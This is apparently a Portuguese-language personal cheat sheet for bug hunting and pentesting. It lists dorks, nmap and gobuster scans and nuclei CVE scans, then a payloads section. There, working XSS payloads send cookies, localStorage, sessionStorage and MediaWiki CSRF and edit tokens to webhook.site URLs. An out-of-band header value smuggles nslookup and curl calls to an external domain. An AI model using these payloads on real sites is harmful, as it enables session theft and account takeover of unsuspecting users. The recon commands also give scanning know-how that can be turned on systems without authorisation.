 # Umas paradas que uso de vez em quando e gosto de deixar salvo pra lembrar

---

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip -b 400 -exclude-lenght 100
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```
* **Bypass de filtro de iframe com xss onerror**
```
<img src="invalid" onerror="document.body.innerHTML+='<iframe src=https://emupedia.net/emupedia-game-doom1/asmjs/ width=500 height=400></iframe>'">
```
* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```html
    <img src="invalid" onerror="
  var data = {
    cookies: document.cookie,
    localStorage: {},
    sessionStorage: {},
    mediawikiTokens: {},
    userInfo: {}
  };
  
  // Capturar todos os dados do localStorage
  for(var i=0; i<localStorage.length; i++) {
    var key = localStorage.key(i);
    data.localStorage[key] = localStorage.getItem(key);
  }
  
  // Capturar todos os dados do sessionStorage
  for(var i=0; i<sessionStorage.length; i++) {
    var key = sessionStorage.key(i);
    data.sessionStorage[key] = sessionStorage.getItem(key);
  }
  
  // Tenta obter tokens do MediaWiki especificamente
  try {
    if (typeof mw !== 'undefined' && mw.user && mw.user.tokens) {
      data.mediawikiTokens = {
        editToken: mw.user.tokens.get('editToken'),
        csrfToken: mw.user.tokens.get('csrfToken'),
        watchToken: mw.user.tokens.get('watchToken')
      };
    }
  } catch(e) {}
  
  // Informações do usuário
  try {
    if (typeof mw !== 'undefined' && mw.config) {
      data.userInfo = {
        userName: mw.config.get('wgUserName'),
        userId: mw.config.get('wgUserId'),
        pageName: mw.config.get('wgPageName'),
        canonicalNamespace: mw.config.get('wgCanonicalNamespace'),
        revisionId: mw.config.get('wgRevisionId'),
        articleId: mw.config.get('wgArticleId')
      };
    }
  } catch(e) {}
  
  fetch('https://webhook.site/ce0ff999-b412-490d-aa38-f946520e63b0', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(data)
  });
    ">

```
```
### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

### Server local

```bash
python3 -m http.server 1234
ngrok http 1234

(pra se usar o ngrok precisa do http.server, porém só o http.server já server como server interno, o ngrok o deixa publico)
```
## Ferramentas & Recursos Adicionais

Links para repositórios e ferramentas úteis.

- [SHCheck - Shell/Header Vulnerability Checker](https://github.com/santoru/shcheck)
- [Converter imagem em link pub](https://pngup.com/)

